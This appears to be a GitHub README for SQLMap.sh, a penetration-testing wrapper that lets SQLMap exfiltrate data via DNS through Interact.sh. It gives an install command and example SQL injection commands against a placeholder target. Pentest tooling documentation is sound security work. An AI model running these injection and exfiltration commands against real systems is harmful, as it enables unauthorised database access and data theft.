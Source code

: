 ![SQLMap.sh](./pics/sqlmapsh.png)

[![Go Report Card](https://goreportcard.com/badge/github.com/unlock-security/sqlmapsh?style=for-the-badge)](https://goreportcard.com/report/github.com/unlock-security/sqlmapsh)
[![License](https://img.shields.io/github/license/unlock-security/sqlmapsh?style=for-the-badge&label=License)](https://github.com/unlock-security/sqlmapsh?tab=GPL-3.0-1-ov-file#readme)
[![GitHub release (latest by date)](https://img.shields.io/github/v/release/unlock-security/sqlmapsh?style=for-the-badge)](https://github.com/unlock-security/sqlmapsh/releases/latest)
[![Made by 🔓 Unlock Security](https://img.shields.io/badge/Made_by-🔓_Unlock_Security-blue.svg?style=for-the-badge)](https://www.unlock-security.it/?utm_source=github&utm_medium=repo&utm_campaign=sqlmapsh)


SQLMap.sh is a SQLMap wrapper that lets you use Interact.sh as a DNS server for exfiltrating data with zero configuration.

To use the SQLMap `--dns-domain` flag you need to open your port 53 to the internet to let it run its own DNS server and you need a properly configured domain. This is not always possible during a penetration test engagement or maybe you just don't want to buy a domain for this.

SQLMap.sh solves this problem transparently. Just use it as if it is SQLMap and your are done to exfiltrate data via DNS.

## Installation

Run the following command to install the latest version.

```sh
go install github.com/unlock-security/sqlmapsh@latest
```

## Usage

Just replace `sqlmap` with `sudo sqlmapsh` when you want to use SQLMap with data exfiltration via DNS.

> [!IMPORTANT]
> SQLMap requires root privileges to perform data exfiltration via DNS because it needs to bind it's own DNS server locally on port 53

For example:

```sh
$ sqlmap -u 'https://www.target.com/page=1' -p page --level=5 --risk=3 --technique=E --banner
```

Become:

```sh
$ sudo sqlmapsh -u 'https://www.target.com/page=1' -p page --level=5 --risk=3 --technique=E --banner
```

---

<p align="center">Made with 💙 by Unlock Security</p>
<p align="center">
  <a href="https://www.unlock-security.it/?utm_source=github&utm_medium=repo&utm_campaign=wshell" target="_blank" rel="noopener">
    <img src="https://www.unlock-security.it/wp-content/uploads/2022/12/logo.svg" width="150">
  </a>
</p>

